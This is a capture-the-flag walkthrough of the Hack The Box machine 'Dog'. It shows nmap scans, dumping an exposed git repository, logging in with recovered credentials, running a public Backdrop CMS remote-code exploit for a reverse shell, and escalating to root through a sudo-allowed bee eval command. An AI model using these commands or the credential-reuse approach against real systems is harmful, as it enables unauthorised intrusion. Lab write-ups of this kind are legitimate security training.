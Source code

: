 ![](images/image0.png)

# Dog HTB Walkthrough

---

## Nmap Scan

```bash
nmap -p- -Pn 10.129.58.251 -v -T5 --min-rate 1000 --max-rtt-timeout 1000ms --max-retries 5 -oN nmap_ports.txt && sleep 5 && nmap -Pn 10.129.58.251 -sC -sV -v -oN nmap_sVsC.txt && sleep 5 && nmap -T5 -Pn 10.129.58.251 -v --script vuln -oN nmap_vuln.txt
```

![](images/image3.png)

---

## Web Enumeration

When looking at the website at port 808 we see the CMS running it:

![](images/image5.png)

Note we also found a git repository so let's check it.

![](images/image7.png)

---

## Git Repository Extraction

```bash
git-dumper http://10.129.58.251 .git
```

![](images/image1.png)

We then checked out the `settings.php` and found database credentials:

![](images/image6.png)

We also find a username at:

```
files/config_83dddd18e1ec67fd8ff5bba2453c7fb3/active
```

![](images/image13.png)

Using the found credentials we successfully logged in as **tiffany**:

![](images/image12.png)
![](images/image4.png)

---

## Exploitation - Backdrop CMS RCE

Found this exploit online:  
🔗 [https://github.com/rvizx/backdrop-rce/](https://github.com/rvizx/backdrop-rce/)

Using this we gained a reverse shell:

```bash
python3 exploit.py http://10.129.58.251 tiffany@dog.htb BackDropJ2024DS2024
```

![](images/image15.png)

---

## Shell Stabilization

Then we upgraded the shell:

![](images/image8.png)

---

## Privilege Escalation - Password Reuse

Then I tried to password spray and it worked:

![](images/image9.png)

User flag is on the desktop.

---

## Sudo Privilege Escalation

We see that `sudo -l` gives us that we can run the **bee** command as sudo.

![](images/image14.png)

With `bee -h` we see what it does, and it can run arbitrary PHP code:

![](images/image10.png)
![](images/image2.png)

Note: we also need to set the root directory, so let’s craft our exploit:

```bash
sudo /usr/local/bin/bee --root=/var/www/html eval "system('/bin/bash -p');"
```

![](images/image11.png)

It worked — we are **root**!  
Root flag is at `/root/root.txt`.

---
